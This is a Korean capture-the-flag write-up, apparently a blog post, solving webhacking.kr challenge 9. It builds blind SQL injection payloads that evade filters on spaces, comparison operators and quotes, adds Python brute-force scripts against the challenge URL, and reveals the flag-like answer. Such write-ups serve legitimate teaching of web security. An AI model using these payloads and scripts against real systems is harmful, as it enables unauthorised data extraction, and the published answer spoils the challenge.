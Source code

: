 ```yaml
---
title: "[webhacking.kr] 9번 문제 풀이[blind sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "9번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 9번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면 & 문제 분석
  처음 접속하면 그림처럼 1,2,3 페이지로 넘어갈 수 있게 되어 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671227-86f77835-8def-4b11-9892-3da591988d82.png)

  1,2,3을 각각 눌러보면 다음과 같은 화면이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671332-bb20d714-4707-4315-bdec-09489dcbab76.png)

  3번 페이지를 보니 no=3일때의 id를 구하면 되는 문제 입니다. 

  개발자 모드를 통한 소스코드나, 쿠키 값을 봐도 별다른 특이사항이 없으므로 blind sql injection 문제로 추정됩니다.

  위의 내용을 토대로 테스트를 진행해 보기위해 로컬에 DB를 다음과 같이 구성했습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671374-1d96ab3f-f296-450e-9841-249115a52fe0.png)

  
# 문제 풀이
## 풀이 설계
 페이지 구성이 간단해서 화면에 'Apple', 'Banana'를 띄워주는 부분에서 호출되는 SQL문은 다음과 같다고 추론할 수 있습니다.
 ```sql
 select id from chall9 where no = {}
 ```

 따라서 ```no={}```부분에 mysql 함수들을 이용해서 나오는 결과에 따라서 출력되는 id 값을 통해서 함수들의 값을 확인할 수 있습니다.

 예를들어 
 ```
 select id from chall9 where no = 1=1
 ```

 을 입력한다면 1=1 -> 1 이기 때문에 화면에는 

 ```
 select id from chall9 where no=1 
 ```
 의 결과 값인 Apple이 나올 것입니다.

 본 문제에서는 **=** 문자가 필터링 되어 있어서 테스트를 다음과 같이 수행해 봤습니다.

 ![image](https://user-images.githubusercontent.com/33647663/150671579-fa139650-aa6a-4c46-abc5-dd81ca04f15d.png)

 ![image](https://user-images.githubusercontent.com/33647663/150671561-a098530d-1a47-4b1f-ab8c-dcc2896fab9b.png)

 다음과 같이 함수의 결과가 각각 1,2 이기 때문에 화면에 no=1인 apple과 no=2인 banana가 출력되었습니다. 


## 필터링 우회
 우선 이번 문제는 필터링이 생각보다 많이 되어 있었습니다. 제가 생각한 대부분의 문자가 필터링 되어 있었는데 그중 가장 우회하기 힘든 것은 **공백**필터링과, **비교연산자** ('=','<','>')필터링 그리고 **문자열 필터링**(') 이었습니다.
 
 첫번째로 공백문자(%20,%09,%0a)가 모두 필터링 되어 있었기 때문에 여러 함수들을 사용하기 위해서는 다음처럼  '(', ')'를 이용해서 사용해야 했습니다.

 ![image](https://user-images.githubusercontent.com/33647663/150672184-4a075979-e14d-409f-85ec-29ccf344424a.png)
 
 두번째로, 단순 비교연산을 하기 위해 필요한 연산자들이 모두 필터링 되어 있어서 이를 우회하기 위해서 like 함수를 사용했습니다. 그리고 마지막으로 like 를 사용하려면 다음처럼 사용이 가능한데
 ```sql
    select substr('admin',1,1) like 'a'
 ```

 ![image](https://user-images.githubusercontent.com/33647663/150672123-1eafc525-4614-4587-8349-73736bd12110.png)

  (') 세미콜론이 필터링 되어 있어서 다음처럼 0x61같이 hex값으로 우회를 했습니다. 

  ![image](https://user-images.githubusercontent.com/33647663/150672149-d213b031-a0ed-49bc-95b9-5d1b4fa56700.png)

  그리고 이번 문제에서 인젝션을 수행하기 위해서는 다음의 개념을 정확하게 이해해야 합니다.

  우선 현재 테이블에 있는 정보가 다음과 같다고 할때,

  | id | no |
  |:---:|:---:|
  |apple|1|
  |banana|2|
  |secret_word|3|
  
  아래 sql문이 어떻게 동작하는지 살펴보겠습니다.

  ```sql
  select id from chall9 where no = (length(id)=5);
  ```

  우선 위의 쿼리문을 실행하면 다음과 같이 'apple'이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/150687330-1312ea33-3d9d-40b6-9369-bd974bdc631d.png)

  그러면 다음 sql 문은 어떻게 동작할까요? sql문이 익숙하지 않으신 분은 아마 'banana'가 나올거라고 생각할 수도 있는데 결과는 아무것도 출력되지 않습니다.

  ```sql
  select id from chall9 where no = (length(id)=6);
  ```

  ![image](https://user-images.githubusercontent.com/33647663/150687398-53b90d56-53f0-4d98-9faf-9d2bc02db4ef.png)

  이를 이해하기 위해서는 위의 쿼리문이 각각의 열에 대해서 다 다르게 작동된다는 것을 알아야 합니다. 먼저 length(id)=5 인경우에 대해서는 각각의 열에서 쿼리가 다음과 같이 변환됩니다.

  ```sql
  apple : length(id) = 5  --> 1
  select id from chall9 where no = 1
  --> apple의 no = 1이기 때문에 조건을 만족하여 출력

  banana : length(id) = 5  --> 0
  select id from chall9 where no = 0
  --> banana의 no = 2이기 때문에 출력되지 않음

  secret_word : length(id) =5 --> 0
  select id from chall9 where no = 0
  --> secret_word의 no = 3이기 때문에 출력되지 않음 
  ```


  같은 방식으로 length(id)=6인 경우에는 다음과 같이 1차적인 연산이 수행됩니다. 

  ![image](https://user-images.githubusercontent.com/33647663/150687850-b1f7a192-0b75-45ed-ab3d-976f0b9ad3bc.png)

  그 다음은 3개의 열에 각각
  ```sql
  apple : select id from chall9 where no =0;

  banana: select id from chall9 where no =1;
  
  secret_word : select id from chall9 whrer no=0;
  ```

  이렇게 나오게 됩니다. 여기까지만 봤을때, banana의 경우 출력값이 ```select id from chall9 where no =1```이기 때문에 그렇다면 ```apple```이 결과로 나오는 건가? 라고 생각할 수도 있지만, no = 1이 나올때는 length(id) = 6이기 때문에[id:banana인 경우] 1이 나온것이라서 이는 논리적으로 맞지 않습니다. 그래서 length(id) = 6인 banana값을 쿼리문을 통해서 찾고 싶다면 다음과 같은 방법을 사용해 줘야 합니다.

  ```sql
  select id from chall9 where no = if(length(id)=6,2,0);
  ```

  이렇게 된다면 length(id) = 6이 참이라면, if문에 의해서 결과값이 2가 되며 결과적으로는 'banana'열은
  ```sql
  select id from chall9 where no = 2
  ```
  가 되게 됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150688077-3f8be46b-d73a-4ea2-9d05-44c17cf76e8b.png)

  위의 개념들을 다 정리하고 난 후 파이썬 코드를 작성하여 자동화 시켰습니다.

  ---
  먼저 id의 길이를 알아내는 쿼리 입니다. 좀전에 설명했던 개념대로 if(length(id)like($길이),3,0) 형태로 쿼리를 작성해 줬습니다. 

  ```python
    url = "https://webhacking.kr/challenge/web-09/index.php?no="
    params = 'if(length(id)like({}),3,0)'
    TRUE_FLAG = 'Secret'

    # password의 길이를 구하는 쿼리
    for i in range(15):
        request_url = url + params.format(i)
        response = requests.get(request_url)
        if(TRUE_FLAG in response.text):
            print("id's length : " + str(i))

  ```
  
  그다음은 비밀번호의 길이만큼 substr을 이용하여 한 글자씩 알아내는 쿼리입니다. 맨 아래의 실행 결과를 보면 한 글자씩 a,b,c,d, ... 이렇게 비교를 해가면서 결과를 비교하는 과정입니다.

  ```python
    password = ''
    for i in range(1,12):
        for j in range(65,127):
            params = 'if(substr(id,{},1)like({}),3,0)'.format(i,hex(j))
            print(params)
            request_url = url + params
            response = requests.get(request_url)
            if(TRUE_FLAG in response.text):
                print('find {}st character : {}'.format(i,chr(j)))
                password += chr(j)
                break
   ```


  최종 실행결과는 다음과 같이 나왔으며, 비밀번호인 'alsrkswhaql'를 입력해 주면 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/150688879-6ceaf98d-8c5c-4397-8e70-2198aa3bd480.png)

  ![image](https://user-images.githubusercontent.com/33647663/150688956-fe00747b-35df-4df7-965b-2e256b11e984.png)

